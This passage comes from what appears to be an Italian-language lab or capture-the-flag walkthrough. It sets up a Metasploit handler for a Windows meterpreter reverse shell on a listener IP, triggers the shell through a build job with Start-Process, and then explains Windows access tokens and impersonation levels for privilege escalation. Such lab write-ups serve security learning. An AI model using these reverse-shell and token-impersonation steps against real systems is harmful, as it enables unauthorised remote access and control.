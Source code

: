 ```
use exploit/multi/handler
```
```
set PAYLOAD windows/meterpreter/reverse_tcp
```
```
set LHOST 10.11.116.149
```
```
set LPORT 1244
```
```
run
```


﻿Questo passaggio utilizza il gestore Metasploit per ricevere la connessione in arrivo dalla tua reverse shell. Una volta che è in esecuzione, inserisci questo comando per avviare la reverse shell

`Start-Process "shell-name.exe"`

inseriamo questo comando e rifacciamo BuildNow
```
shell-name.exe
```
Questo dovrebbe generare un revshell meterpreter!

Ora che abbiamo l'accesso iniziale, utilizziamo la rappresentazione tramite token per ottenere l'accesso al sistema.

**Windows usa i token** per garantire che gli account abbiano i privilegi giusti per eseguire determinate azioni. I token di account vengono assegnati a un account quando gli utenti effettuano l'accesso o vengono autenticati. Ciò avviene solitamente tramite LSASS.exe (pensate a questo come a un processo di autenticazione).

Questo token di accesso è composto da:

- SID utente (identificatore di sicurezza)
- SID di gruppo
- Privilegi

Tra le altre cose. Informazioni più dettagliate possono essere trovate [qui](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens) .

Esistono due tipi di token di accesso:

- Token di accesso primario: quelli associati a un account utente che vengono generati all'accesso
- Token di impersonificazione: consentono a un particolare processo (o thread in un processo) di ottenere l'accesso alle risorse utilizzando il token di un altro processo (utente/client)

Per un token di impersonificazione, ci sono diversi livelli:

- SecurityAnonymous: l'utente/client corrente non può impersonare un altro utente/client
- SecurityIdentification: l'utente/client corrente può ottenere l'identità e i privilegi di un client ma non può impersonarlo
- SecurityImpersonation: l'utente/client corrente può impersonare il contesto di sicurezza del client sul sistema locale
- SecurityDelegation: l'utente/client corrente può impersonare il contesto di sicurezza del client su un sistema remoto

